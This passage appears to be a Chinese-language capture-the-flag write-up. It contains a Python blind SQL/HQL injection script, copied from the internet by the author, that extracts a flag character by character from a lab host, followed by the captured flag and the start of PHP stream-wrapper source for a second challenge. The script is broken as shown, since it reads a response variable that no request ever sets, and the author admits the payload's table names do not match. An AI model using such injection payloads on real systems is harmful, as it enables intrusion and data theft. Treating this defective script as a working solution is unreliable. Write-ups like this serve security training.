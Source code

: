 这样子就知道flag在哪里了。可以在刚才登录的基础上进行盲注

自己写盲注什么都没注出来，这是网上的脚本，但是payload中的列名和表名和上面的配置并不一样。这是为什么。。

进行盲注

```python
import requests
s=requests.session()

FLAG=''
for i in range(1,50):
    p=''
    for j in range(1,255):
        payload="(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
        url="http://111.198.29.45:47620/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
        #print(len(r1.text))
        if len(r1.text)>20000 and p!='':
            FLAG+=p
            print(i,FLAG)
            break
        p=chr(j)
```

`sctf{C46E250926A2DFFD831975396222B08E}`

## blgdel

扫描发现一个源码（config.php的）

```php
<?php

class master
{
	private $path;
	private $name;
	
	function __construct(){}
	
	function stream_open($path)
	{
		if(!preg_match('/(.*)\/(.*)$/s',$path,$array,0,9))
			return 1;
		$a=$array[1];
		parse_str($array[2],$array);
		
		if(isset($array['path']))
		{
			$this->path=$array['path'];
		}
		else
			return 1;
		if(isset($array['name']))
		{
			$this->name=$array['name'];
		}
		else
			return 1;
		
		if($a==='upload')
		{
			return $this->upload($this->path,$this->name);
		}
```